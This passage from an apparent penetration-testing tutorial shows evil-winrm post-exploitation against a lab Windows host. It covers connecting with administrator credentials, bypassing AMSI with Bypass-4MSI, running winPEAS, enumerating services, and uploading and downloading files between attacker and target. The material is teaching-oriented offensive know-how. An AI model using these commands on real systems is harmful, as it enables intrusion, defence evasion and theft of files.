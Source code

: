 evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -e /opt/privsc

Bypass-4MSI

menu

Invoke-Binary /opt/privsc/winPEASx64.exe

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh1HbFIHZrCdFDc-TospIBJBOOLl6Znt68mtLt7qbUJwwzleEEIqEbX_kEMQlXNmeMzzuW6AdvgGpFVzzfkBZq-SrWVpG8u9dsf2W9lzFUdeFRUnf1XUr5m-gER75GCw1GvIbsCUai31loYcc5-UVGoHigLXsu_54yN7o22vn6-IIb1YRotWYg4lZe4nw/s16000/14.png)

Once we set an executables path then we can use any executable that we wish to run into the target system. In the below example, we are calling WinPEASx64.exe and running it into the target system with evil-winrm. As we can see, it is working fine as expected.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjfC1qx5x21vYOpemsV-aF4FfbiLy2cdlWuvZEktqduHu2qJxiu2CkeTK8hPomieCBzFzJQ6gcKLJ0YyQDvC-iWPNZkuCA76cB9shHSyZM3yQWhTRTKpIQGcr3iBV4rzMlJUE0xT248WaTROx0tiLujTy0u_CqYlwQAfP-ZAApP3eBM7CYE9I7wHNc8sA/s16000/15.png)

### Service Enumeration with Evil-winrm

Sometimes many post-exploitation enumeration tools fail to detect the service name that is running in the target system. In that scenario, we can use evil-winrm to find the service names running in the target system. To do that, we can again go to the menu and use services feature. It will list all the services running into the compromised host. This feature can be very handy when we see there is any unquoted service installed in the target system and other post-exploitation tools fail to identify the service name.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi_M5QqtZiEsNt67o-QiAo2h3vlSANXg63OMdj72Gy248b0uP-6JHDih9kIMuyILepwcg3NILL_28W30hhvE4apwgKUH6JkOZAmjIePuHr1MofdgdKyWG4ra3IxduvS7Jdwa2qKn2o9k7JsbSLRf26iHpmrmqhXZFvbXWbCU5G7Ef_CIhLGzUDN0xcHFA/s16000/16.png)

### File Transfer with Evil-winrm

There is no doubt that evil-winrm has given its best to make our work easy as possible. We always need to transfer files from the Attacking machine to the remote machine in order to perform enumeration or other things. Instead of setting the python server and downloading it from the target system, we can simply use the **upload** command with the filename. This is a life-saving feature that the evil-winrm tool is giving especially in such scenarios when we face outbound traffic rules set in the target system and when we are using evil-winrm with proxies. In the below example, we are uploading the **notes.txt** file in the target system.

upload /root/notes.txt .

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjV0LYXEelOEl_x-PT2bJaSLRp6fsu9Lnu2btIjge24KumeMLT-QE3ztsX9WmhfSRRW9KyCcnNZB4J-U6jsHQ88X25UiQY09UkbuG4ZjjEXVRkRDbzWwp3iLVQkANtFAnJg8FrM7TigEm10mVvOCTAGI5Qow43-wUW3Nvlr88OOgkQIFziAc5QAb44Yfg/s16000/17.png)

Similarly, we can download the file from the target system to the attacker’s machine using the **download** command along with the file name.

download notes.txt /root/raj/notes.txt

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjXS3qvhGiUEKBFNhb7VJcRdIRYJx_Ls91JWqekyxzrjavIMCTSlEQP97glCymhu10zsX0gAf_HeFjxZJr47x9TmOHvXYeUeHm6MHazNsWtYBcimmlcDzF8t5GpDg_Z3OVshf2VfV3Y--kgqmwpHUE3RkHoct-tyD0BqYONh9KIH_yJnveguYHMHsJc-A/s16000/18.png)

We can verify it by navigating the path we downloaded notes.txt in the attacking machine.

**![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh_7c1A6iq4Az8HYbs7Pk9WYmqRfYEUHGk585B2sHS3Hs_r-vNZe5fjXl4dEIBGnkVNpoo4vAyoDCu_WkC0vLiiTatAm1SkVN84I-yqMqvCtH14cE4NaDQstmW7ET0kk6tD46vjhSljL0gxvmKGWbTgRssDCh_6yypPDvw6579AlF-Q7wWKtbXmv76HiQ/s16000/19.png)  
**
